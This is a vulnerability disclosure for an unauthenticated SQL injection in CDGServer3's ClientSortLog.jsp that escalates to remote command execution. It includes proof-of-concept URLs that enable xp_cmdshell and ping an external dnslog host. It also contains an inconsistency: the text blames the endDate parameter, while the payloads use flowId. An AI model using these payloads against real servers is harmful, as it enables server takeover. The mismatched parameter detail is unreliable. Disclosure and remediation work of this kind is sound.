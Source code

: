 

![image-20250220200622985](./assets/image-20250220200622985.png)

![image-20250220200557874](./assets/image-20250220200557874.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:
A SQL injection vulnerability was discovered in the `ClientSortLog.jsp` endpoint, specifically in the `endDate` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:
`/CDGServer3/logManagement/ClientSortLog.jsp`

### Vulnerability Type:
RCE

### Vulnerable Code:
```jsp
<%
    String baseTableName = "SystemLog";
	SystemLogInfo info = new SystemLogInfo();
	SystemLogDao dao = new SystemLogDao();

	List list = new ArrayList();

	int currPage = RequestUtil.getIntParameter(request, "curpage", 1);

	String userId = request.getParameter("userId"); 
	String userName = request.getParameter("userName"); 
	String[] logOperations = request.getParameterValues("logOperation"); 
	String logMemo = request.getParameter("logMemo"); 

	String startDate = request.getParameter("startDate"); 
	String endDate = request.getParameter("endDate"); 
	String organiseId = request.getParameter("organiseId");
	String organiseName = request.getParameter("organiseName");
	if( organiseName == null){
	  organiseName = "";
	}else{
	  organiseName = new String(organiseName.getBytes("ISO_8859_1"), "GBK");
	}


	SystemLogVO systemLogVO = new SystemLogVO();
	systemLogVO.setUserId(CDGUtil.replaceStringToDB(userId));
	systemLogVO.setUserName(CDGUtil.replaceStringToDB(userName));
	systemLogVO.setLogMemo(CDGUtil.replaceStringToDB(logMemo));
	systemLogVO.setLogOperations(logOperations);
	systemLogVO.setStartDate(startDate);
	systemLogVO.setEndDate(endDate);
	systemLogVO.setOrganiseId(organiseId);
	//PageUtil pageutil = dao.getSystemLogList(systemLogVO, currPage,tableName);
	PageUtilAndlogTableurl pageUtilAndlogTableurl = dao.getSystemLogList(startDate,endDate,systemLogVO,
			currPage,baseTableName,tableName);
	PageUtil pageutil = pageUtilAndlogTableurl.getPageUtil();
	list = pageutil.getRecords();
	session.setAttribute("maxrowcount", "" + pageutil.getRecordNum());
	session.setAttribute("maxpage", "" + pageutil.getPageNum());
	session.setAttribute("curpage", "" + currPage);
	session.setAttribute("selectTableName",tableName);
	int count = 0;
	if (list != null && list.size() > 0) {
		count = list.size();
	}
	OrganiseStructModel orgM = new OrganiseStructModel();
	List<OrganiseStructInfo> orgList = orgM.showFilterUserGroups(loginMng.getUserName(),rp);
	String logTableurl = pageUtilAndlogTableurl.getLogTableurl();
```

### Proof of Concept (PoC):
1. Time-based SQL Injection:
   ```
   https://uri/CDGServer3/logManagement/ClientSortLog.jsp?flowId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:
   ```
   https://uri/CDGServer3/logManagement/ClientSortLog.jsp?flowId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:
   ```
   https://uri/CDGServer3/logManagement/ClientSortLog.jsp?flowId=1';exec master..xp_cmdshell 'ping 9abb3b22.log.dnslog.sbs.'--
   ```

![image-20250220200033432](./assets/image-20250220200033432.png)

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:
- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:
1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:
The RCE in the `ClientSortLog.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)



